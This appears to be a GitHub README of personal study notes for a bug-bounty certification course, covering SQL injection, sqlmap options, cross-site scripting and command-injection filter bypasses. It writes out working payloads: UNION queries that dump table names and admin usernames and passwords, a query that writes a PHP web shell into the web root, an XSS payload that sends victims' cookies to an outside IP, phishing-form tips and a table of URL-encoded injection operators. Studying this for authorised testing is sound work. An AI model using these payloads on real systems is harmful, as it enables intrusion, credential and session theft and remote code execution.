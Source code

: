 # CBBH
Stuff for CBBH


  JavaScript Deobsfucation - Tools
    
    https://beautifier.io/
    http://www.jsnice.org/


  Intro to MySQL

    Connect to database
    sudo service mysql start
    
    mysql -h 94.237.62.195 -P 39097 -u root --password
    -h : for host/target
    -P : for custom port
    -u : for user
    --password : for password
  
    Find stuff with queries
    
    select * from employees where first_name LIKE 'Bar%' AND hire_date='1990-01-01';
    LIKE : You may use when searching for a substring in string (i.e Bar = Barton).
    % : Starts with (used in mysql)

    ')+or+id=4--+-

    Database enumeration

    #Get it without line breaking
    '+union+select+1,group_concat(table_name),3,4+from+information_schema.tables--+-

    #Get it nicier
    '+union+select+1,table_schema,table_name,4,5+from+information_schema.tables--+-
    
    #Writing files
    '+union+select+null,null,null,"<?php+system($_REQUEST['cmd']);?>"+into+outfile+"/var/www/html/blah2.php"--+-

    #Get data from whithin another database
    '+union+select+1,username,password,4,5+from+backup.admin_bk--+-

  Cross-Site Scripting

    #When creating a phishing form the submit button has to be just like so
    <input type="submit" name="submit" value="login">

    #That's a way to remove unanted html stuff from the page [gotta wrap it between script tags]
    document.getElementById("id-here").remove();


    #To stealk cookies
    "><img src=x onerror=this.src="http://ip/?c"+document.cookie;>

  SQLmap

    ' , ; -- /* */
    
    ##TIP: IF YOU CAN FIND BOUNDARIES, TRY TO COUNT THE NUMBER OF COLUMNS AND SPECIFY IT IN SQLMAP
    
    #Techniques and their meaning
    B: Boolean-based blind
    E: Error-based
    U: Union query-based
    S: Stacked queries
    T: Time-based blind
    Q: Inline queries

    #To parse erros and see the response
    --parse-errors

    #Level/Risk
    Risk: Might cause database entry loss or DoS (Denial of Service) [1-3]
    Level: Extends vectors and boundaries (i.e the lower the expectancy, the higher the level) [1-5]

    #To display the payloads
    -v 3 [verbose level 3]

    #To provide a certain number of cols
    --union-cols=1337

    #Boundaries
    Once you've found a specific prefix, do not forget to add the apostrophe ' to it
    --prefix="<change-here>"
    --suffix="<change-here>"

    #Search function
    --search 
    -C: column
    -T: table
    -D: database

    #Handling csrf token
    ##NOTE: THE PROPER WAY TO HANDLE THIS KINDA TOKEN IS BY, PASSING THEM WHEREVER THEY APPEAR (e.g cookie/body) AND USE THE FLAG --csrf-token WITH THE NAME OF THE PARAM THAT HOLDS THE TOKEN
  
  Command Injection

    ##NOTE: If slash or backslash is blacklisted, you may use environment variable that have these chars
    <LINUX>
    ${PATH:0:1} - Uses the slash at the $PATH variable
    ${LS_COLORS:10:1} - Uses tha semi-colon at the $LS_COLORS variable

    <WINDOWS>
    echo %HOMEPATH:~6,-11%
    
  Injection Operator | Injection Character	| URL-Encoded Character| Executed Command
  |---|---|---|---|
  |Semicolon | ; |	%3b	| Both
  |New Line |	\\n | %0a | Both
  |Background | & | %26 | Both (second output generally shown first)
  |Pipe |	\| 	| %7c | Both (only second output is shown)
  |AND |	&& | %26%26 | Both (only if first succeeds)
  |OR | \|\|	| %7c%7c	| Second (only if first fails)
  |Sub-Shell |	\`\` | %60%60 |	Both (Linux-only)
  |Sub-Shell | $() | %24%28%29 | Both (Linux-only)
    
